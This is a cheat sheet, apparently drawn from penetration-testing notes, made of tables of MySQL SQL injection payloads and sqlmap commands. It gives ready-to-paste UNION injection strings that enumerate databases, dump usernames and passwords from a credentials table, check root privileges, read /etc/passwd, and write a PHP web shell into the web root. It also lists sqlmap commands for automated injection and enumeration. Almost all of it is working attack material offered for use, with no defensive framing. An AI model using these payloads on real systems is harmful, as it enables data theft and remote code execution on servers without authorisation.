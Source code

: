 | Payload | Description |
|---------|-------------|
| `SELECT @@version` | Fingerprint MySQL with query output |
| `SELECT SLEEP(5)` | Fingerprint MySQL with no output |
| `cn' UNION select 1,database(),2,3-- -` | Current database name |
| `cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -` | List all databases |
| `cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -` | List all tables in a specific database |
| `cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -` | List all columns in a specific table |
| `cn' UNION select 1, username, password, 4 from dev.credentials-- -` | Dump data from a table in another database |

#### Privileges

| Payload | Description |
|---------|-------------|
| `cn' UNION SELECT 1, user(), 3, 4-- -` | Find current user |
| `cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -` | Find if user has admin privileges |
| `cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -` | Find all user privileges |
| `cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -` | Find which directories can be accessed through MySQL |

#### File Injection

| Payload | Description |
|---------|-------------|
| `cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -` | Read local file |
| `select 'file written successfully!' into outfile '/var/www/html/proof.txt'` | Write a string to a local file |
| `cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -` | Write a web shell into the base web directory |

# SQLMAP

| Command | Description |
|---------|-------------|
| `sqlmap -h` | View the basic help menu |
| `sqlmap -hh` | View the advanced help menu |
| `sqlmap -u "http://www.example.com/vuln.php?id=1" --batch` | Run SQLMap without asking for user input |
| `sqlmap 'http://www.example.com/' --data 'uid=1&name=test'` | SQLMap with POST request |
| `sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'` | POST request specifying an injection point with an asterisk |
| `sqlmap -r req.txt` | Passing an HTTP request file to SQLMap |
| `sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'` | Specifying a cookie header |
| `sqlmap -u www.target.com --data='id=1' --method PUT` | Specifying a PUT request |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt` | Store traffic to an output file |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch` | Specify verbosity level |
| `sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"` | Specifying a prefix or suffix |
| `sqlmap -u www.example.com/?id=1 -v 3 --level=5` | Specifying the level and risk |
| `sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba` | Basic DB enumeration |
| `sqlmap -u "http://www.example.com/?id=1" --tables -D testdb` | Table enumeration |
